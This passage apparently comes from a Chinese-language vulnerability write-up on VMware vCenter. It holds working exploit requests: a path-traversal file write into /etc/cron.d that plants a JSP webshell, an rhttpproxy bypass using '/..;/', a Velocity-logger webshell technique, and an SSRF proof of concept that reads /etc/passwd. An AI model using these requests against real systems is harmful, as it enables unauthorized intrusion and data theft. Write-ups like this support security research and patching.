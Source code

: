 目前已经可以控制任意文件写入，但是没有办法控制文件后缀 `.json`，对于 linux 的机器可以写入计划任务来执行写 shell 的操作：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```http<br>POST /analytics/telemetry/ph-stg/api/hyper/send?_c=&_i=/../../../../../../etc/cron.d/POC HTTP/1.1<br>Host: IP<br>Content-Type: application/json<br>Content-Length: 144<br><br>* * * * * root echo PCUgICAgICAgIG91dC5wcmludGxuKCJIZWxsb1dvcmxkIik7ICAgICAgJT4=\|base64 -d >/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/hello.jsp<br>``` |

待定时任务启动后，可在 `https://localhost/idm/..;/hello.jsp` 可以访问到 shell。

(这里的`/..;/`是因为 Tomcat 会将`/..;/`视作`/../`，可以利用该特性绕过 vCenter 某些版本的 `rhttpproxy` 的访问限制)。

##### [](#dataappagentcontroller-%E6%BC%8F%E6%B4%9E)DataAppAgentController 漏洞

官方提供的 POC 中还涉及到一个接口：`/analytics/telemetry/ph/api/dataapp/agent`，而在新版本的代码中，已经将端点： `/dataapp/agent` 相关代码全部删除，因此确定漏洞的位置。

最终通过`VelocityHelper.executeVelocityExpression` 触发 `velocity` 表达式执行。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081747127.png-water_print](assets/1708572547-82cdbf09478454fa99cd397d897b61e0.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081747127.png-water_print")

最终 `@testbnull` 发现可以通过上下文可用的 `$GLOBAL-logger`，利用 `setFile` 方法临时修改日志路径到 Web 路径的方式，写入 WebShell 实现 RCE。

### [](#26-provider-logo-ssrf-%E6%BC%8F%E6%B4%9E)2.6 provider-logo SSRF 漏洞

#### [](#261-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)2.6.1 漏洞利用

VMware vCenter v 7.0.x 的某些版本中存在未授权 SSRF 漏洞，可以读取本地文件造成敏感信息泄露；读取远程文件形成 XSS 漏洞。

POC & EXP:

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-ssrf.yaml`

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```http<br>GET /ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url=file:///etc/passwd HTTP/1.1<br>Host: {{target}}<br>``` |
